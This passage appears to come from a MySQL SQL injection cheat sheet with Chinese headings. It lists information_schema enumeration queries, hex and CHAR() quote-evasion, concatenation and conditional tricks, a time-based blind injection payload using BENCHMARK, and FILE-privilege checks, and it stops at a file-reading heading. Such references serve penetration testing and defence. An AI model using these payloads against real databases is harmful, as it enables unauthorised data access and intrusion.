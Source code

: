 	    SELECT column_name FROM information_schema.columns WHERE table_name = 'Users';  		|   Finds the columns for the Users table.
	SELECT column_name FROM information_schema.columns WHERE table_name LIKE '%user%';|Finds the column names for any tables that contain the word user.

__查看当前查询__

	SELECT info FROM information_schema.processlist	Available starting from MySQL 5.1.7

##### 转义(避免使用引号)

	SELECT * FROM Users WHERE username = 0x61646D696E	Hex encoding.
	SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)	CHAR() Function.

##### 字符串连接

	SELECT 'a' 'd' 'mi' 'n';
	SELECT CONCAT('a', 'd', 'm', 'i', 'n');
	SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
	SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');

注意

如果其任何参数为NULL，CONCAT()将返回NULL。改用CONCAT_WS()。 
CONCAT_WS()的第一个参数为其参数的其余部分定义了分隔符。

##### 条件声明

	CASE
	IF()
	IFNULL()
	NULLIF()

例子：

	SELECT IF(1=1, true, false);
	SELECT CASE WHEN 1=1 THEN true ELSE false END;

##### 时间

	SLEEP()	MySQL 5
	BENCHMARK()	MySQL 4/5

例子：

	' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '

##### 权限

__文件权限__

以下的查询可以帮助查看文件权限是否分配给用户

	SELECT file_priv FROM mysql.user WHERE user = 'username';	Root privileges required	MySQL 4/5
	SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';	No privileges required	MySQL 5

##### 读文件
